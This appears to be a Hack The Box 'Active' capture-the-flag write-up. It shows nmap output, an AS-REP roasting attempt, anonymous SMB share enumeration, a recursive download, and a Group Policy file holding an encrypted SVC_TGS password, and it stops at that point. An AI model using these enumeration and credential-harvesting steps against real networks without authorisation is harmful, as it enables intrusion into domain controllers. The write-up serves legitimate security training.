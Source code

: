 ```yaml
---
title: Hack The Box - CTF Lab - Active - Easy
date: 2025-05-25 00:00:01 +0800
image: /images/thumbnails/Active.png
categories: [HTB Labs]
tags: [CPTS, Easy]
---
```

Active is an easy to medium difficulty machine, which features two very prevalent techniques to gain privileges within an Active Directory environment.

We of course start with a full nmap scan:
```
sudo nmap -sC -sV -p- 10.10.10.100

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-26 16:18 EDT
Nmap scan report for 10.10.10.100
Host is up (0.028s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-26 20:19:18Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49166/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-05-26T20:20:15
|_  start_date: 2025-05-26T19:55:29

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.87 seconds
```
From the nmap scan, we notice that the host is a Domain Controller since it is running LDAP. We also know the OS version is Windows Server 2008 and the domain is active.htb. 

We add the domain name to our /etc/hosts file:
```
10.10.10.100 active.htb
```

Like we did in HTB-Forest, we can try using Impacket's GetNPUsers.py to see if there are any domain users who do not have Kerberos preauthentication enabled which would allow us to access their TGT/hashed password. 

```
GetNPUsers.py -dc-ip 10.10.10.100 -request 'active.htb/'

[-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C09075A, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v1db1
```
Unfortunately we see that the DC does not allow for anonymous binding.

Next, we try testing against the SMB service. 

```
smbclient -N -L //10.10.10.100
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
SMB1 disabled -- no workgroup available
```
We see that anonymous login is successful and we have several shares that are listed. 

We test to see if we can access any of these shares and we do find a share that allows read access:
```
smbclient -N //10.10.10.100/Replication
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 21 06:37:44 2018
  ..                                  D        0  Sat Jul 21 06:37:44 2018
  active.htb                          D        0  Sat Jul 21 06:37:44 2018

		5217023 blocks of size 4096. 278565 blocks available
smb: \> 
```
After changing directory to active.htb, we find many files, therefore we download them all recursively with 3 smb commands:
```
smb: \> RECURSE ON 
smb: \> PROMPT OFF
smb: \> mget *

getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI of size 23 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI of size 22 as active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Group Policy\GPE.INI of size 119 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI (0.7 KiloBytes/sec) (average 0.2 KiloBytes/sec)
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol of size 2788 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol (12.5 KiloBytes/sec) (average 2.9 KiloBytes/sec)
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml of size 533 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml (3.1 KiloBytes/sec) (average 3.0 KiloBytes/sec)
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 1098 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (7.1 KiloBytes/sec) (average 3.4 KiloBytes/sec)
getting file \active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 3722 as active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (30.3 KiloBytes/sec) (average 5.7 KiloBytes/sec)
```
Once we look through all the files, we see a Guests.xml file:
```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
with username active.htb\SVC_TGS
and password that looks encrypted:
```
edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```


